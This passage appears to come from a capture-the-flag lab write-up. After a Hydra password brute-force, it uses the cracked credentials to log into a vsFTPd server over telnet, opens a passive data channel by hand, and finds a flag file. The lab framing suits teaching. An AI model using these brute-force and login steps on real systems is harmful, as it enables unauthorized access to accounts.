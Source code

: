 ```
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-08 15:18:17
```

We found two passwords. Now let's use telnet and try to connect with user eddie :  
```
attacker@AttackBox:~$ telnet 10.10.9.119 10021
Trying 10.10.9.119...
Connected to 10.10.9.119.
Escape character is '^]'.
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
```

Now, let's create a second channel for the data (FTP works with two channels, one for sending commands and the second for data transfert) :  
```
PASV
227 Entering Passive Mode (10,10,9,119,118,94).
```

Now, we have to establish a connection to another port for data transfert. To find out the correct port that was openned with PASV command, we have to take the two last
values (118 and 94), and calculate the port like so : (118 x 256) + 94 = 30 302.  
We can now connect to port 30 302 using telnet in another terminal :  
```
attacker@AttackBox:~$ telnet 10.10.9.119 30302
Trying 10.10.9.119...
Connected to 10.10.9.119.
Escape character is '^]'.
```

We are connected to the data channel. Now, we can type `LIST` in the first channel (where we typed USER and PASS commands), and the result should be received in the 
second channel :  
- Fist channel :  
```
LIST
150 Here comes the directory listing.
226 Directory send OK.
```

- Second channel :  
```
attacker@AttackBox:~$ telnet 10.10.9.119 30302
Trying 10.10.9.119...
Connected to 10.10.9.119.
Escape character is '^]'.
Connection closed by foreign host.
attacker@AttackBox:~$
```

There is no files in this account... Let's try with user quinn, it's the same method as before, we just use another set of credentials :  
```
attacker@AttackBox:~$ telnet 10.10.9.119 30638
Trying 10.10.9.119...
Connected to 10.10.9.119.
Escape character is '^]'.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
Connection closed by foreign host.
```
